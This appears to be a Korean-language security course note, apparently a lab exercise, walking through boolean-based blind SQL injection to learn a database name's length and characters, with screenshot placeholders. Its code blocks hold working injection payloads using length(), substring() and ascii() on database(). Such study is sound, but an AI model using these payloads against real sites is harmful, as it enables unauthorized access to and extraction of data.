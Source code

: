 ![image-20200903155131889](secure_day4.assets/image-20200903155131889.png)

이렇게 나오면 거짓

```
' or 1=1 and length(database())=4#
```

![image-20200903161519398](secure_day4.assets/image-20200903161519398.png)

이렇게 나오면 참. 이제 우리는 db의 길이가 5라는 것을 알아냈다.

```
' or 1=1 and length(database())=5#
```

![image-20200903161606841](secure_day4.assets/image-20200903161606841.png)

이거랑 같음

![image-20200903161815022](secure_day4.assets/image-20200903161815022.png)

데이터베이스 첫번째 문자 찾기

```
' or 1=1 and substring(database(),1,1)='b'#
또는아스키코드값으로 찾기 가능
' or 1=1 and ascii(substring(database(),2,1))=98#
```
